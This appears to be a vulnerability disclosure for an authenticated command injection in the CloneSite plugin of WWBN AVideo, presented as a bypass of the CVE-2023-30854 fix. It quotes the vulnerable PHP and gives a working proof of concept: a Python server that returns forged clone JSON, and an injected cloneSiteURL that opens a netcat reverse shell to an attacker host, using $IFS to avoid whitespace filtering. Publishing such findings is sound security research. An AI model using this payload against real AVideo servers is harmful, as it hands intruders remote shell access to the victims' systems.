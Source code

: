 # WWBN AVideo  {currentVersion} Authenticated RCE 

A command injection vulnerability exists at `plugin/CloneSite/cloneClient.json.php` which allows Remote Code Execution if you CloneSite Plugin. This is a bypass to the fix for [CVE-2023-30854](https://cve.report/CVE-2023-30854) which affects WWBN Avideo up to version 12.3

## Vulnerable Code

/plugin/CloneSite/cloneClient.json.php

```php
$json->sqlFile = escapeshellarg(preg_replace('/[^a-z0-9_.-]/i', '', $json->sqlFile));
$json->videoFiles = escapeshellarg(preg_replace('/[^a-z0-9_.-]/i', '', $json->videoFiles));
$json->photoFiles = escapeshellarg(preg_replace('/[^a-z0-9_.-]/i', '', $json->photoFiles));

// get dump file
$cmd = "wget -O {$clonesDir}{$json->sqlFile} {$objClone->cloneSiteURL}videos/cache/clones/{$json->sqlFile}";
$log->add("Clone (2 of {$totalSteps}): Geting MySQL Dump file");
exec($cmd . " 2>&1", $output, $return_val);
```

The `$objClone->cloneSiteURL` is not properly sanitized.
## Exploit Proof-of-Concept

avidexploit.py
```python
from http.server import BaseHTTPRequestHandler, HTTPServer
import time

hostName = "localhost"
serverPort = 8080

class MyServer(BaseHTTPRequestHandler):
    def do_GET(self):
        self.send_response(200)
        self.send_header("Content-type", "application/json")
        self.end_headers()
        self.wfile.write(bytes("{\"error\":false,\"msg\":\"\",\"url\":\"https:\/\/attacker.com/\/\",\"key\":\"2d6db3c09e41a9c27dbc72aecc4a6fc0\",\"useRsync\":1,\"videosDir\":\"\/var\/www\/html\/demo.avideo.com\/videos\/\",\"sqlFile\":\"Clone_mysqlDump_644ab263e62d6.sql\",\"videoFiles\":[],\"photoFiles\":[]}", "utf-8"))

if __name__ == "__main__":        
    webServer = HTTPServer((hostName, serverPort), MyServer)
    print("Server started http://%s:%s" % (hostName, serverPort))

    try:
        webServer.serve_forever()
    except KeyboardInterrupt:
        pass

    webServer.server_close()
    print("Server stopped.")
```

Run in command line
```bash
$ python3 avidexploit.py &
$ ngrok tcp 8080 # optional if not running in VPS
```
- Then get your public facing IP and Port. Enter a cloneSiteURL like the following then hit clone to achieve command injection
```bash
http://2.tcp.ngrok.io:14599/;nc$IFS'ATTACKER.COM'$IFS'5555'$IFS-e$IFS/bin/sh;#
```

**It is important to not use white spaces for the exploit to work. Replace whitespace with `$IFS` when adding arguments to your RCE**


![poc](https://i.ibb.co/bdpQYcK/2023-05-07-17-04-43-online-video-cutter-com.gif)

## Credits

- JM Sanchez
- [https://www.linkedin.com/in/juanmarcosanchez/](https://www.linkedin.com/in/juanmarcosanchez/)